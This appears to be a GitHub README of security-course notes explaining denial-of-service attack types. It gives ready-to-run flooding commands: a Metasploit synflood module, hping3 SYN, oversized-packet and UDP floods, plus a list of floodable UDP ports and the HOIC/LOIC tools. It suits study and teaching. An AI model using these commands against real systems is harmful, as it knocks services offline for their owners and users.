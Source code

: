 # DENIAL OF SERVICE (DoS)
In a DoS attack, attackers flood a victim’s system with nonlegitimate service requests or traffic to overload its resources, ideally bringing the system down and leading to the unavailability of the victim’s website.<br>
## DoS ATTACKS ARE OF 3 MAIN TYPES
* Volumetric attacks: populate the bandwidth of the target network.
  Techniques:
  * UDP flood
  * ICMP flood
  * Ping of death and smurf attack
  * Pulse wave and zero-day attacks
* Protocol attacks: populate resources like connection state tables in network infrastructures like firewalls, load balancers, servers etc.
  Techniques:
  * SYN flood attack
  * Fragmentation attack
  * spoofed session flood attack
  * ACK flood attack
* Application layer attacks
  Techniques:
  * HTTP GET/POST attack
  * Slowloris attack
  * UDP application layer flood

## PERFORMING SYN FLOODING ATTACK USING METASPLOIT
1. check if the desired port is open (21 in this case) using: ```nmap -p 21 <target IP(s)>```
2. start metasploit by entering the command ```msfconsole```
3. load the auxiliary module 'synflood' using: ```use auxiliary/tcp/synflood```
4. configure the target:
5. set RHOST <target IP>
6. set RPORT <target port>
7. start the DoS attack by entering ```exploit```<br>
![image](https://user-images.githubusercontent.com/56624593/151600090-ac45d3d0-678c-42cf-8e6f-fe825cea400d.png)<br>

## PERFORM DoS ATTACK USING hping3
### Simple Flood
```hping3 -S <Target IP Address> -p <target port> --flood```<br>
![image](https://user-images.githubusercontent.com/56624593/151600747-dbe8a365-2cfc-41a0-a982-834a29516b09.png)<br>

### Ping Of Death
```hping3 -d 65538 -S -p <target port> --flood <Target IP Address>```<br>
In a ping of Death attack, the attacker tries to crash, freeze, or destabilize the targeted system or service by sending malformed or oversized packets using a simple ping command.<br>
![image](https://user-images.githubusercontent.com/56624593/151601076-47ece7df-a4b3-459b-880b-3da7f240d7e3.png)<br>
the attacker sends a packet that has a size of 65,538 bytes to the target web server. This packet size exceeds the size limit prescribed by RFC 791 IP, which is 65,535 bytes. The receiving system’s reassembly process might cause the system to crash.<br>

### UDP application layer flood
we will use NetBIOS port 139 to perform a UDP application layer flood attack.<br>
``` hping3 -2 -p 139 --flood <Target IP Address>```<br>
![image](https://user-images.githubusercontent.com/56624593/151601639-5ad9e79b-84da-4a3e-acf9-3538e8418aa3.png)<br>
some UDP based application layer protocols that can be flooded:<br>
CharGEN (Port 19), SNMPv2 (Port 161), QOTD (Port 17), RPC (Port 135), SSDP (Port 1900), CLDAP (Port 389), TFTP (Port 69), NetBIOS (Port 137,138,139), NTP (Port 123), Quake Network Protocol (Port 26000), VoIP (Port 5060).

## DDoS ATTACKS USING TOOLS LIKE HOIC AND LOIC
When a large number of devices perform a DoS attack on a victim, it is called a Distributed DoS (DDoS) attack.<br>
HOIC (High Orbit Ion Cannon) and LOIC (Low orbit Ion Cannon) are GUI based tools that are used to perform DOS, DDOS attacks on targets.<br>
HOIC can target multiple targets (up to 256) at once, while LOIC is focussed more towards attacking web based applications and IPs.

